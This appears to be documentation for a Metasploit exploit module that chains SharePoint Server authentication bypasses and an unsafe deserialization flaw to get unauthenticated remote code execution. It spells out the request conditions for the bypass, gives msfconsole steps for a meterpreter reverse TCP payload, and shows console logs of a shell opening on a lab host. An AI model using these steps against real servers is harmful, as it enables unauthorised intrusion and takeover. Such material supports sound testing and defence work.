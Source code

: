 ## Vulnerable Application
This module exploits the authentication bypass vulnerabilities `CVE-2025-49706` and `CVE-2025-53771`, and an unsafe
deserialization vulnerability `CVE-2025-49704`, to achieve unauthenticated RCE against a vulnerable Microsoft
SharePoint Server. The vulnerability `CVE-2025-53770` was disclosed as being a patch bypass of `CVE-2025-49704`,
and as described by the finders, `CVE-2025-53770` targets a different endpoint within the `/_vti_bin/` URI path.
As this exploit module does not target the endpoint associated with `CVE-2025-53770` (per the original finders),
we believe this module is best described as exploiting `CVE-2025-49704` alone (and not `CVE-2025-53770`).

`CVE-2025-49706` is an authentication bypass affecting Microsoft SharePoint Server, allowing a remote unauthenticated
attacker to reach the ToolPane page, located at the `/_layouts/15/ToolPane.aspx` URI. The auth bypass works if an
attacker supplies the following elements to an HTTP request:

* An HTTP Referer header with one of the values `/_layouts/SignOut.aspx`, `/_layouts/14/SignOut.aspx`, or `/_layouts/15/SignOut.aspx`.
* An HTTP query parameter named `DisplayMode` with the value `Edit`.
* An HTTP query parameter with any name and the value `/ToolPane.aspx`, so long as this is the last query parameter.
* An HTTP form parameter named `MSOTlPn_Uri` with the full URL to the `/_controltemplates/15/AclEditor.ascx` endpoint.

`CVE-2025-53771` is a patch bypass for `CVE-2025-49706`. By appending a trailing `/` to the target
`/_layouts/15/ToolPane.aspx` URI, e.g. `/_layouts/15/ToolPane.aspx/` a remote unauthenticated attacker can reach
the ToolPane page.

`CVE-2025-49704` is an unsafe deserialization vulnerability due to bypassing a filter list to allow the instantiation of
`LosFormatter` and `ObjectDataProvider` in the `diffgr:diffgram` XML document, allowing us to kick off a second
stage deserialization gadget (which will be a `TypeConfuseDelegate` + `LosFormatter` gadget chain).

The July 8, 2025, patch for `CVE-2025-49704` did not apply correctly to a SharePoint site that had not also manually run
a SharePoint configuration update. The patch for `CVE-2025-49704` did not address the root cause, and instead marked the
`Microsoft.PerformancePoint.Scorecards.Client` assembly as unsafe. The July 19, 2025, patch for `CVE-2025-53770`
addresses the root cause of `CVE-2025-49704` and does not rely on a manual configuration update to be performed in
order to be affective.

## Testing
This exploit module has been successfully tested against the following versions:

* SharePoint Server 2019 `16.0.10337.12109` - This is the RTM version. Is vulnerable to all 4 CVEs. Exploitation
is reliable.
* SharePoint Server 2019 `16.0.10417.20018` - This is the June 2025 patch level (`KB 5002729)`. Is vulnerable to
all 4 CVEs. Exploitation is reliable.
* SharePoint Server 2019 `16.0.10417.20027` - This is the July 2025 patch level (`KB 5002741`). This patched
out `CVE-2025-49704` and `CVE-2025-49706`, but is vulnerable to `CVE-2025-53770` and `CVE-2025-53771`. Exploitation is
reliable **unless the site administrator has manually performed a configuration update**.

### Setup

Installing Microsoft SharePoint is non-trivial. This [setup guide](https://gist.github.com/testanull/e1573437f91ec3726ab5041389c6f28d)
is a great step-by-step tutorial to get up and running.

After you install SharePoint, you must create a new site, bound to a new port. This is what the exploit will target.

_NOTE: If you enable HTTPS, you will need to manually setup certificates via IIS Manager._

## Verification Steps

1. Start msfconsole
2. `use exploit/windows/http/sharepoint_toolpane_rce`

Configure the target:

3. `set RHOST <TARGET_IP_ADDRESS>`
4. `set RPORT <TARGET_HTTP_OR_HTTPS_PORT>`
5. `set SSL true` (If targeting HTTPS)

Configure the payload:

_NOTE: If testing with the default Meterpreter payloads, you will likely need to disable Defender._

6. `set PAYLOAD cmd/windows/http/x64/meterpreter_reverse_tcp`
7. `set LHOST eth0`
8. `set LPORT 4444`

Run the exploit:

9. `check`
10. `exploit`

## Scenarios

### Example 1 (cmd/windows/http/x64/meterpreter_reverse_tcp)

```
msf exploit(windows/http/sharepoint_toolpane_rce) > show options 

Module options (exploit/windows/http/sharepoint_toolpane_rce):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   Proxies                   no        A proxy chain of format type:host:port[,type:host:port][...]. Supported proxies: sapni, socks4, socks5, socks5h, http
   RHOSTS   192.168.86.50    yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-metasploit.html
   RPORT    80               yes       The target port (TCP)
   SSL      false            no        Negotiate SSL/TLS for outgoing connections
   VHOST                     no        HTTP server virtual host


Payload options (cmd/windows/http/x64/meterpreter_reverse_tcp):

   Name                Current Setting  Required  Description
   ----                ---------------  --------  -----------
   EXITFUNC            process          yes       Exit technique (Accepted: '', seh, thread, process, none)
   EXTENSIONS                           no        Comma-separate list of extensions to load
   EXTINIT                              no        Initialization strings for extensions
   FETCH_COMMAND       CERTUTIL         yes       Command to fetch payload (Accepted: CURL, TFTP, CERTUTIL)
   FETCH_DELETE        true             yes       Attempt to delete the binary after execution
   FETCH_FILENAME      ccMNrNsj         no        Name to use on remote system when storing payload; cannot contain spaces or slashes
   FETCH_SRVHOST                        no        Local IP to use for serving payload
   FETCH_SRVPORT       8080             yes       Local port to use for serving payload
   FETCH_URIPATH                        no        Local URI to use for serving payload
   FETCH_WRITABLE_DIR  %TEMP%           yes       Remote writable dir to store payload; cannot contain spaces.
   LHOST               192.168.86.122   yes       The listen address (an interface may be specified)
   LPORT               4444             yes       The listen port


   When FETCH_COMMAND is one of CURL:

   Name        Current Setting  Required  Description
   ----        ---------------  --------  -----------
   FETCH_PIPE  false            yes       Host both the binary payload and the command so it can be piped directly to the shell.


Exploit target:

   Id  Name
   --  ----
   0   Default



View the full module info with the info, or info -d command.

msf exploit(windows/http/sharepoint_toolpane_rce) > check
[*] 192.168.86.50:80 - The target appears to be vulnerable. Detected Microsoft SharePoint Server 2019 version 16.0.10417.20027
msf exploit(windows/http/sharepoint_toolpane_rce) > exploit 
[*] Started reverse TCP handler on 192.168.86.122:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target appears to be vulnerable. Detected Microsoft SharePoint Server 2019 version 16.0.10417.20027
[*] Meterpreter session 3 opened (192.168.86.122:4444 -> 192.168.86.50:62290) at 2025-07-23 12:58:41 +0100

meterpreter > sysinfo
Computer        : WIN-V28QNSO2H05
OS              : Windows Server 2022 (10.0 Build 20348).
Architecture    : x64
System Language : en_US
Domain          : TESTDOMAIN
Logged On Users : 24
Meterpreter     : x64/windows
meterpreter > pwd
c:\windows\system32\inetsrv
meterpreter > 
```

### Example 2 (cmd/windows/generic)

```
msf exploit(windows/http/sharepoint_toolpane_rce) > show options 

Module options (exploit/windows/http/sharepoint_toolpane_rce):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   Proxies                   no        A proxy chain of format type:host:port[,type:host:port][...]. Supported proxies: sapni, socks4, socks5, socks5h, http
   RHOSTS   192.168.86.50    yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-metasploit.html
   RPORT    80               yes       The target port (TCP)
   SSL      false            no        Negotiate SSL/TLS for outgoing connections
   VHOST                     no        HTTP server virtual host


Payload options (cmd/windows/generic):

   Name  Current Setting  Required  Description
   ----  ---------------  --------  -----------
   CMD   notepad.exe      yes       The command string to execute


Exploit target:

   Id  Name
   --  ----
   0   Default



View the full module info with the info, or info -d command.

msf exploit(windows/http/sharepoint_toolpane_rce) > exploit
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target appears to be vulnerable. Detected Microsoft SharePoint Server 2019 version 16.0.10417.20027
[*] Exploit completed, but no session was created.
msf exploit(windows/http/sharepoint_toolpane_rce) >
```

You will be able to observe in Task Manager or Process Explorer that the `w3wp.exe` process has spawned `cmd.exe` which
has spawned `notepad.exe`.

